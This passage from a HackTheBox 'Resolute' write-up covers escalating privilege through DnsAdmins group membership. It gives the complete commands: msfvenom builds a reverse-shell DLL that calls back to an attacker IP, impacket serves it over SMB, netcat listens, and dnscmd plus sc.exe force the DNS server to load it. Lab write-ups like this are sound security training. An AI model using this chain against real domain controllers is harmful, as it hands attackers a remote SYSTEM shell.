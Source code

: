 The user is in the group MEGABANK/DnsAdmins, so I looked for how to use this to my advantage.
After a few minuts I found a great [article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) for a privilege escalation with dns.

## build the exploit

The first thing is to build a reverse shell for windows and integrate this into a dll file.

```bash
msfvenom -p windows/x64/shell_reverse_tcp --platform windows LHOST=10.10.14.34 LPORT=1337 -f dll > ~/poison/plugesc.dll
```

## create smb share

The next step is to start a local smb fileserver that is reachable from the dns server.

```bash
impacket-smbserver SHARE ~/poison/
```

![setup_smb](../../../../assets/images/hackthebox/resolute/0_setup_smb.png)

## Setup the listener
```bash
nc -nlvp 1337
```

## load the dll and restart the dns server
```powershell
dnscmd resolute.megabank.local /config /ServerLevelPluginDll \\10.10.14.34\share\plugesc.dll

# Stop dns 
sc.exe \\10.10.10.169 stop dns

# start dns
sc.exe \\10.10.10.169 start dns
```
![config_dns](../../../../assets/images/hackthebox/resolute/1_config_dns.png)

# Root shell
![root_shell](../../../../assets/images/hackthebox/resolute/2_got_root.png)

That's it, got root! I learned a lot from this box, especially always to look for hidden files.